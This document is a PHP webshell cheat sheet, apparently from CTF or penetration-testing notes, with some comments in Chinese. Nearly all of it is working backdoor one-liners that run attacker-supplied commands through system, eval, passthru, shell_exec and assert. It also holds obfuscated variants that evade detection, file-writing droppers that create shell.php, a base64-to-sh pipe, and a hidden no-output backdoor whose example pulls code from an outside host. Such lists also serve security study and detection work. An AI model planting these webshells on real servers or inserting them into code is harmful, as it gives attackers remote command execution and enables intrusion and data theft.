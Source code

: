 
# Webshell
```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
// 构造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上传
// 把暂存档include进来
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo导出一句话

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// 无回显后门  
// e.g. ?pass=file_get_contents('http://rs.panja.cc/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>
```